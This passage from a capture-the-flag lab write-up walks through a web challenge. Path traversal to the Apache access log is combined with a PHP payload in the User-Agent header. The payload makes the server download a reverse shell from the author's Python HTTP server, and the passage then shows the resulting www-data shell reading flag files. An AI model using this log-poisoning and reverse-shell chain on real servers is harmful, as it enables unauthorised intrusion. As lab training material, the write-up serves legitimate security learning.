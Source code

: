 It does not work. So, I am going to try another route: upload the reverse shell php file (already present in kali systems) to the server using `curl` and the `-A` flag for setting the user agent. But thats not all, we need to have the file served, so that the curl command curls from our temporary server. I am going to use python3 simple http server for this.

```
❯ sudo python3 -m http.server 4242
Serving HTTP on 0.0.0.0 port 4242 (http://0.0.0.0:4242/) ...
```

The curl did not work for some reason, so I fired up burp again, and this is what I put:
```
GET /?view=dog../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.8.231
User-Agent: <?php file_put_contents('phpreverseshell.php',file_get_contents('http://10.8.150.214:4242/phpreverseshell.php'))?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

I see get requests, so the payload was successful!

```
❯ sudo python3 -m http.server 4242
Serving HTTP on 0.0.0.0 port 4242 (http://0.0.0.0:4242/) ...
10.10.8.231 - - [03/Mar/2021 23:55:53] "GET /phpreverseshell.php HTTP/1.0" 200 -
10.10.8.231 - - [03/Mar/2021 23:56:21] "GET /phpreverseshell.php HTTP/1.0" 200 -
``` 

Now, lets go to: `http://10.10.8.231/phpreverseshell.php`. And don't forget to setup `nc` as well :P

## Foothold
```
$ pwd
/
$ whoami
www-data
```
We are in!

```
$ cat flag2_QMW7JvaY2LvK.txt
THM{leet}
$ pwd
/var/www
```


```
$ cat flag.php
<?php
$flag_1 = "THM{l33t}"
?>
$ pwd
/var/www/html
```
